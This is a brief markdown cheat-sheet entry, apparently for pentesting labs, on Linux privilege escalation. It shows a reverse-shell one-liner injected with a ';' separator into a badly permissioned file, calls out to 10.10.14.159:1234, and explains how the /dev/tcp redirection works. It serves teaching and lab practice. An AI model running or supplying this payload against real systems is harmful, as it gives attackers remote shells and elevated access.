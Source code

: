 # Privilege escalation

privilege escalation is a vast topic in itself, however, the technique can be simple as:

1. Any other user in the box?
2. Any file with higher permission

`echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.159/1234 0>&1'  #" >> badlypermissionedfile`

Explanation: `bash -i >& /dev/tcp/<IP>/<port> 0>&1`

This snippet runs a new interactive instance of bash \(bash -i\), on a TCP connection to the specified port on the specified host which is created for the duration of the bash process. Standard output and standard error are sent through this connection \(`>& /dev/tcp/HOST/PORT`\), and standard input is read through this connection \(`0>&1` or `0<&1` both works\).

`echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/<IP_ADDRESS>/<1234> 0>&1'  #" >> filename`

